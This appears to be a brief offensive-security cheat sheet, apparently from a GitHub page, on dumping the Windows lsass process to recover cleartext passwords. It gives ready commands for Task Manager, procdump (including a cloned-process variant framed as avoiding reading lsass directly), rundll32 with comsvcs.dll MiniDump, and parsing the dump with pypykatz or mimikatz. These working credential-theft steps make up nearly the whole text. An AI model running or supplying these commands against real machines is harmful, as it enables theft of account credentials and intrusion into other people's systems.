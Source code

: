 For quick and easy, you can map `\\live.sysinternals.com\` or go to https://live.sysinternals.com/ to download sysinternal tools

Dumping lsass to find cleartext password:
Using windows task manager (with administrator privilege): right click on lsass.exe -> create dump file
Using procdump: 
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
Or using comsvcs.dll: `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full`

Then either use https://github.com/skelsec/pypykatz or `mimikatz.exe` + `sekurlsa::minidump {location for lsass.dmp}` 